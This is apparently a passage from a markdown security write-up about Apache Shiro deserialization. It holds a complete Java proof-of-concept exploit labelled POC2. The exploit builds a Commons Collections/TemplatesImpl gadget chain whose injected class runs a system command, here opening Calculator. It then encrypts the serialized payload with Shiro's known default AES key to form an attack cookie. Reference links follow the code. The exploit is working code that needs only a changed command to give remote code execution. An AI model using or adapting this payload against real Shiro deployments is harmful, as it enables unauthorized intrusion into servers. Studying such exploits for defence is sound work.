

### POC2
```java
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import sun.misc.BASE64Decoder;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestLazyMap {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cls = pool.makeClass("Cat");
        String cmdlist = "open /System/Applications/Calculator.app";
        String cmd = "java.lang.Runtime.getRuntime().exec(\""+cmdlist+"\");";
        cls.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat" + System.nanoTime();
        cls.setName(randomName);
        cls.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cls.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        HashSet map = new HashSet(1);
        map.add(entry);
        lazyMap.remove("foo");
        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");

        Field f4 = entry.getClass().getDeclaredField("key");
        f4.setAccessible(true);
        f4.set(entry,templates);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] payloads = byteArrayOutputStream.toByteArray();
        AesCipherService aes = new AesCipherService();
        byte[] key = new BASE64Decoder().decodeBuffer("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}

```


## 参考链接
[https://blog.csdn.net/m0_67392409/article/details/124100291](https://blog.csdn.net/m0_67392409/article/details/124100291)

[https://blog.csdn.net/HongYu012/article/details/123112913](https://blog.csdn.net/HongYu012/article/details/123112913)

[https://xz.aliyun.com/t/7950?page=5](https://xz.aliyun.com/t/7950?page=5)

